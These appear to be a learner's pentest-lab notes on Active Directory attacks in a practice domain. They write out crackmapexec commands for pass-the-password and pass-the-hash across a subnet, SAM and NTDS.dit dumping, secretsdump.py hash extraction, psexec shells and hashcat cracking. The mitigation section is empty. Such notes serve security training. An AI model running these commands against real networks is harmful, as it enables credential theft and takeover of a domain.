

crackmapexec to pass the username and password around the network
#crackmapexec smb 192.168.57.0/24 -u facstle -d MARVEL.local -p P@ssword
-u:the username to pass
-p:the password associated to the username we pass
-d:domain
for ip we can use exact ip ofr CIDR notation

we dont have smb access to Domain Controller(HYDRA) even though we have password and username
do dump sam files or ntds.dit file form pwn3d machine use
#crackmapexec smb 192.168.57.0/24 -u fcastle -d MARVEL.local -p P@ssword --sam
#crackmapexec smb 192.168.57.0/24 -u fcastle -d MARVEL.local -p P@ssword --ntds
we can get a shell useing psexec.py

since we know fcastle is a user on the machine 192.168.57.18 from crackmapexec finding
-------Dumping Hashes-----------------------------
#secretsdump.py marvel.local/fcastle:P@ssword@192.168.57.17
get sam hashes etc of 192.168.57.17

#secretsdump.py marvel.local/fcastle:P@ssword@192.168.57.18
get sam hashes etc of 192.168.57.18
(psexec.py and secretsdump.py have same syntax)

sam hashes are ntlm(not ntlmv2)
Administrator passwrod same on both machine since they got same hash


*****************NTLM hahses can be passed, NTLMV2 hashes cannot be passed*************************
crack ntlm hashes with hashcat

cannot get password for 31d... which is of administrator
copy second half of the hash
first half is LM hash
second half is NT hash

#crackmapexec smb 192.168.57.0/24 -u "Frank "Castle" -H <hash> --local-auth

---------Mitigation